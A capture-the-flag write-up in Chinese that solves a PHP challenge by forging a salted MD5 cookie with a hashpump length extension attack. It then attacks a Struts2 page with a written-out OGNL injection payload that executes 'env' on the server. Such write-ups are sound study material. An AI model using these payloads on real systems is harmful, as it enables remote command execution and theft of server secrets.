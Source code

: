 # 题目

```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

```bash
# $salt长度为14，并且知道md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
# 要想得到jwt，需要设置key为digest的cookie，并且username为admin，password不为root
./hashpump -s e6ccbf12de9d33ec27a5bcfb6a3293df -d adminroot -k 14 -a aaa
# adminroot\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb8\x00\x00\x00\x00\x00\x00\x00aaa
```

其中 e73c228e8b50e5b3bcc6538c834e0f09 就是我们 cookie 中 digest 的值，

由于源码中的判断条件是 `$_COOKIE["digest"] === md5($salt.$username.$password)`

并且\$username=admin，因此 password 需要去掉 admin,即\$password 为

`root\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb8\x00\x00\x00\x00\x00\x00\x00aaa`

```bash
# url 编码
root%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%b8%00%00%00%00%00%00%00aaa
# burp中传递值为
username=admin&password=root%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%b8%00%00%00%00%00%00%00aaa
```

得到 jwt key, 转到 struts 页面了

方式 1.用 Struts2Scan-main,服务器信息可能要设置全局 Cookie 值(可能不用),可能还要加 jsessionid.执行命令 env

http://localhost/admin/user.action;jsessionid=CDA99EFEFEFE9

方式 2.访问

```bash
'+%2b+(%23_memberAccess["allowStaticMethodAccess"]%3dtrue,%23foo%3dnew+java.lang.Boolean("false")+,%23context["xwork.MethodAccessor.denyMethodExecution"]%3d%23foo,%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('env').getInputStream()))+%2b+'
```

